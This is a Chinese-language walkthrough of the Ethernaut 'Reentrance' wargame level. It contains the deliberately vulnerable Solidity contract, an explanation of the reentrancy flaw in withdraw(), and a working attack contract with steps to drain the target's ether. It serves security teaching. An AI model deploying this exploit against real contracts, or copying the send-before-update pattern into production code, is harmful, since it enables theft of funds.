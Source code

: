 # Reenctrancy
关于重入攻击，如DAO事件
```solidity
pragma solidity ^0.4.18;

contract Reentrance {

  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] += msg.value;
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  function() public payable {}
}
```

### 代码分析
```solidity
function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
```
withdraw(uint256)方法中，先向msg.sender转账，后减少其balance；如果msg.sender方法为一个合约，并且其有
fallback函数，并且在fallback函数中又调用了该合约的withdraw(uint256)方法，那么msg.sender就能一直从该合约
窃取eth（因为整个过程中msg.sender的balance并没有减少），
*msg.sender.call()会将剩余的gas全部传入；msg.sender.transfer(value)则仅能使用2300gas*

### 攻击合约
[官方答案](https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/attacks/ReentranceAttack.sol)
注意：如果合约balance较大而自己donate的balance较小时，则可以进行循环调用，一点一点地减少合约的金额。
（可以引发out of gas 或者达到call最大深度等错误）  
如：
```solidity
pragma solidity ^0.4.18;

import '../levels/Reentrance.sol';

contract ReentranceAttack {

  Reentrance target;

  function ReentranceAttack(address _target) public payable {
    target = Reentrance(_target);
  }

  function() public payable {
    uint256 amount = 1 ether; // your donate balance
    if (target.balance > amount) {
        target.withdraw(amount);
    } else {
        target.withdraw(target.balance);
    }
    
  }
  
  function attack() public {
     uint256 amount = 1 ether;
     target.withdraw(amount);
  }
}
```

### 攻击方法
1. 部署攻击合约
2. 调用Reentrance.donate(1 ether)
3. 调用攻击合约的attack方法
